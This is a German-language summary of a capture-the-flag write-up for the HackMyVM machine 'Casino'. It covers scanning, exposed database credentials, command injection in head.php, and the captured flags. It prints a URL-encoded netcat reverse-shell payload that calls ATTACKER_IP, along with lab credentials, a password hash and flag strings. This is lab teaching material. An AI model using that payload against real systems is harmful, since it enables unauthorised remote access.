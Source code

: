 # Casino - HackMyVM (Medium)

![Casino Icon](Casino.png)

## Übersicht

*   **VM:** Casino
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Casino)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 28. Juni 2023
*   **Original-Writeup:** https://alientec1908.github.io/Casino_HackMyVM_Medium/
*   **Autor:** Ben C. 

## Kurzbeschreibung

Die virtuelle Maschine "Casino" von HackMyVM (Schwierigkeitsgrad: Medium) stellte eine Herausforderung dar, bei der mehrere Schwachstellen ausgenutzt werden mussten, um vollen Root-Zugriff zu erlangen. Der initiale Zugriff erfolgte durch eine Local File Inclusion (LFI) oder Command Injection Schwachstelle in einer PHP-Datei des Webservers. Durch weitere Enumeration als Webserver-Benutzer wurden Datenbank-Credentials und Benutzer-Passwort-Hashes gefunden. Die genauen Schritte zur finalen Rechteausweitung zu Root sind im zugrundeliegenden Writeup nicht detailliert dokumentiert, führten aber letztendlich zur Kompromittierung des Systems.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi`
*   `nmap`
*   `nikto`
*   `curl`
*   `mysql` (Client)
*   `hydra`
*   `gobuster`
*   `wget`
*   `exiftool`
*   `dirb`
*   `nc` (netcat)
*   Standard Linux-Befehle (`cat`, `ls`, `find`, `ss`, `uname`, `getcap`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Casino" verlief in folgenden Phasen:

1.  **Reconnaissance:**
    *   Identifizierung der Ziel-IP (`192.168.2.113`) mittels `arp-scan` und Eintrag als `casino.hmv` in `/etc/hosts`.
    *   `nmap`-Scan offenbarte Port 22 (OpenSSH 9.2p1) und Port 80 (Apache 2.4.57). Die Webseite hatte den Titel "Binary Bet Casino", und das `PHPSESSID`-Cookie wurde ohne `HttpOnly`-Flag gesetzt.

2.  **Web Enumeration:**
    *   `nikto` identifizierte kritische Dateien: `/database.sql` und `/config.php` sowie Verzeichnisauflistung für `/imgs/` und `/styles/`.
    *   `curl http://casino.hmv/database.sql` lieferte MySQL-Credentials: `casino_admin`:`IJustWantToBeRichBaby420` (nur für `localhost`-Zugriff).
    *   Ein externer Login-Versuch mit diesen Credentials auf die MySQL-Datenbank schlug erwartungsgemäß fehl.
    *   `hydra` auf SSH mit dem Benutzer `casino_admin` scheiterte, da der SSH-Server keine Passwort-Authentifizierung erlaubte.
    *   `gobuster` fand weitere Webpfade, darunter `register.php`, `/casino/` (mit `head.php` und `instructions.txt`).
    *   Die Datei `instructions.txt` beschrieb die Spielregeln der Casino-Anwendung.
    *   Metadaten-Analyse von `background.jpg` mit `exiftool` ergab keine relevanten Informationen.
    *   `dirb` bestätigte frühere Funde und zeigte einen `/server-status`-Endpunkt (403 Forbidden).

3.  **Initial Access (LFI / Command Injection & Reverse Shell):**
    *   Eine Schwachstelle (vermutlich LFI oder Command Injection) in `/casino/head.php` wurde über den `cmd`-Parameter ausgenutzt.
    *   Mittels einer URL-kodierten Bash-Reverse-Shell-Payload (via `nc`) im `cmd`-Parameter wurde eine Verbindung zum Angreifer-System hergestellt:
        `http://192.168.2.113/casino/head.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20ATTACKER_IP%205555%20%3E%2Ftmp%2Ff`
    *   Erfolgreiche Etablierung einer Reverse Shell als Benutzer `www-data`.
    *   Auslesen von `/var/www/html/config.php` bestätigte die Datenbank-Credentials.

4.  **Privilege Escalation Enumeration (als www-data):**
    *   Identifizierung der Benutzer-Home-Verzeichnisse: `gimbal` und `shimmer`.
    *   Keine ungewöhnlichen SUID-Binaries gefunden.
    *   Netzwerk-Sockets (`ss -altpn`) zeigten einen unbekannten Dienst auf Port 6969 (localhost), den MySQL-Dienst auf 3306 (localhost) sowie SSH (22) und HTTP (80) auf allen Interfaces.
    *   Keine nützlichen Backups in `/var/backups/`.
    *   Erfolgreicher Login in die lokale MariaDB-Datenbank als `casino_admin`.
    *   In der `casino`-Datenbank, Tabelle `users`, wurde der Benutzer `tom` mit dem bcrypt-Passwort-Hash `$2y$10$ZSVTC1i0SGSy6hv04HOkFej3Cc0hq6kT9dS4EkrZOc7yBn0cEsKaq` gefunden.
    *   Entdeckung der Datei `/casino/explainmepls.php` mit einem GET-Parameter `learnabout`, der auf weitere Schwachstellen hindeuten könnte.
    *   Die Kernel-Version wurde als `Linux casino 6.1.0-9-amd64` identifiziert.
    *   `getcap` zeigte keine ungewöhnlichen Linux Capabilities.
    *   *Anmerkung: Der detaillierte Schritt von `www-data` (mit Kenntnis des `tom`-Hashes) zur Root-Eskalation ist im Original-Writeup nicht explizit dokumentiert.*

## Wichtige Schwachstellen und Konzepte

*   **LFI / Command Injection:** Ausnutzung einer Schwachstelle in `/casino/head.php` über den `cmd`-Parameter für initialen Zugriff.
*   **Klartext-Credentials im Web-Root:** Sensible Datenbank-Zugangsdaten in `database.sql` und `config.php` öffentlich zugänglich.
*   **Fehlende HTTP-Sicherheitsheader:** Insbesondere das `HttpOnly`-Flag für Session-Cookies.
*   **Verzeichnisauflistung (Directory Indexing):** Aktiviert für mehrere Verzeichnisse.
*   **Schwache Passwörter / Hash-Cracking:** Fund eines bcrypt-Hashes, der potenziell für Offline-Cracking anfällig ist.
*   **Informationslecks:** Aufdeckung von Benutzernamen und Datenbankstruktur.
*   **Fehlkonfigurationen:** SSH erlaubt (korrekterweise) keine Passwort-Authentifizierung, was Brute-Force erschwert.

## Flags

*   **User Flag (`user.txt`):** `casinousergobrrr`
*   **Root Flag (`root.txt`):** `symboliclove4u`

## Tags

`HackMyVM`, `Casino`, `Medium`, `LFI`, `Command Injection`, `Web`, `PHP`, `MySQL`, `Credentials Exposure`, `Reverse Shell`, `Privilege Escalation`, `Linux`, `Apache`
